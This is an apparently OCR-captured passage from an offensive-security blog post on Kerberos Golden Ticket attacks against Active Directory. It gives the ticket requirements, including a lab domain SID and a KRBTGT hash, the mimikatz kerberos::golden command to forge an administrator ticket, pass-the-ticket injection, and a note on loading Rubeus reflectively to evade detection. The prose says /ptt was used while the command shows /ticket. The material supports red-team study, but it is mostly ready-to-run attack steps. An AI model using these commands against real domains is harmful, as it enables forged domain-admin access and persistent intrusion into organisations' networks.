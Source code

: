 ```
  .#####.   mimikatz 2.0 alpha (x86) release "Kiwi en C" (Apr  6 2014 22:02:03)
 .## ^ ##.
 ## / \ ##  /* * *
 ## \ / ##   Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 '## v ##'   http://blog.gentilkiwi.com/mimikatz             (oe.eo)
  '#####'                                    with  13 modules * * */
```



**Golden Ticket Requirements**

```powershell
Domain Name: m0chanAD.local
Domain SID: S-1-5-21-1473643419-774954089-2222323452 (whoami /user)
KRBTGT NTLM Hash: d7e2b80507ea074ad59f152a1ba20458
ID: 500 (Administrator SID), 518 (Schema Admins), 519 (Enterprise Admin)
```



**Generate Ticket**

```powershell
mimikatz.exe 
kerberos::golden /domain:m0chanAD.local /sid:<domain-sid> /krbtgt:<krbtgt> /id:500 /user:FakeAdmin /ticket persistance4life.kirbi
```



**PTT**

As you can see in the above examples I have applied the `/ptt` flag which will automatically inject the ticket into my current session but we can choose to output it to a file with the `/ticket` flag which will output a `ticket.kirbi` file by default unless directly specified.



We can then use this `kirbi` ticket for a certain level of persistence and/or inject them with Rubeus which Iw ill display below.

```
mimikatz.exe
kerberos::ptt persistance4life.kirbi
```



#### [](#header-4)Injecting Ticket with Rubeus



> Rubeus is effectively a Kerberos attack tool which we will cover a lot in this article that is developed in C#/.NET meaning it is a lot harder for defenders to detect it it's reflectively loaded using something like Cobalt's `execute-assembly` or `SILENTTRINITY` You can also reflectively load it from PowerShell but I will be covering `.NET` in greater detail in a future article. 
>
> https://github.com/GhostPack/Rubeus



***Disclaimer : This is an exact copy of this section under Silver Tickets***
